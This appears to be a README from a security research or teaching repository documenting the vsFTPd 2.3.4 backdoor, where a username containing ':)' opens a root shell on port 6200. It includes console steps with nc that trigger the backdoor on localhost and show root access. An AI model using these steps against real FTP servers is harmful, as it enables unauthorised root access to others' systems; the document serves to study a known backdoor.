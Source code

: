 # vsFTPd 2.3.4 backdoor

- **Type**: hardcoded credentials
- **Affected versions**: 2.3.4

## Backdoor

When authenticating into the FTP server, if the username contains `":)"`, a shell is bound to port
6200\.

## Triggering the backdoor

First, we need to start the FTP server (e.g., with the _backdoored_ variant):

```console
$ ./backdoored/vsftpd ./vsftpd.conf
```

In a separate terminal, we can trigger the backdoor:

```console
$ nc localhost 8080  # connect to FTP server
220 (vsFTPd 2.3.4)
USER test:)
331 Please specify the password.
PASS x
```

We can now connect to a root shell on port 6200:

```console
$ nc localhost 6200
id
uid=0(root) gid=0(root) groups=0(root)
```

## Reference

<https://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html>
